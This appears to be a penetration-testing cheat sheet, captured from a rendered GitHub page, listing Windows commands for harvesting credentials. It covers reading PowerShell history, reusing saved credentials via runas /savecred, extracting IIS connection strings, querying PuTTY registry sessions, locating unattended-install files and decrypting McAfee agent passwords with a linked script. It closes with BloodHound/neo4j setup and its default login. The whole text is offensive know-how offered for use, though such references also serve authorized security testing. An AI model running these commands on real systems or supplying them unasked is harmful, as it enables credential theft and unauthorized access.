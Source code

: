 ### Capturing configuration file credentials
* Powershell History  
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* EXploiting Saved Windows Credentials
```
cmdkey /list  
runas /savecred /user:admin cmd.exe
```

* IIS Configuration  
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString  
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
  
* Retrieve Credentials from Software: PuTTY  
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

* Unattended Windows Installations
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
  
* Identify  
```
dir /s *.db
```

* McAfee Enterprise Endpoint Security - Credentials used during installation  
```
C:\ProgramData\McAfee\Agent\DB\ma.db
sqlitebrowser ma.db
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py

### Automated AD Enumeration and Dumping
#### BoodHound
password default = neo4j:neo4j
* Install and start neo4j - http://localhost:7474/
```
neo4j.bat windows-service install
neo4j.bat start
```
https://neo4j.com/download-center/
